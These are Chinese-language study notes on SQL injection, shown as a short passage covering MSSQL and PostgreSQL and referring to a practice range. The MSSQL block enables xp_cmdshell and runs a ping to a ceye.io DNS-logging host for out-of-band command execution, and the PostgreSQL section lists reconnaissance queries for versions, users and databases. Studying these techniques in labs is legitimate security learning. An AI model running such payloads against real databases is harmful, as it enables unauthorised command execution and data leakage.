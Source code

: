 ```sql
sp_configure 'show advanced options',1;
reconfigure;
sp_configure 'xp_cmdshell',1;
reconfigure;
declare @a varchar(1024); 
set @a='www.baidu.com';
exec ('master..xp_cmdshell "ping ' %2b @a %2b '.han.9rq9q9.ceye.io" ')
```

## PostgreSQL

参考文章：

这个比较详细：https://www.cnblogs.com/yilishazi/p/14710349.html

[第25天：WEB攻防-通用漏洞&SQL读写注入&MYSQL&MSSQL&PostgreSQL - 解放者-cracer - 博客园](https://www.cnblogs.com/haorancracker/articles/17695943.html)

[postgresql注入 - FreeBuf网络安全行业门户](https://www.freebuf.com/sectool/249371.html)

基本上逻辑思路参考MySQL

1. PostgreSQL注入（注意注释符号--+）
2. 常见的函数查看一些基本信息

~~~sql
SELECT version() #查看版本信息

#查看用户
SELECT user;
SELECT current_user;
SELECT session_user;
SELECT usename FROM pg_user;#这里是usename不是username
SELECT getpgusername();


SELECT current_database()  #查看当前数据库
CURRENT_SCHEMA()  #返回的是当前会话的默认模式名称    sqlmap跑注入使用此函数。
~~~

墨者靶场：

![image-20250112205239562](.\SQL注入原理.assets\image-20250112205239562.png)

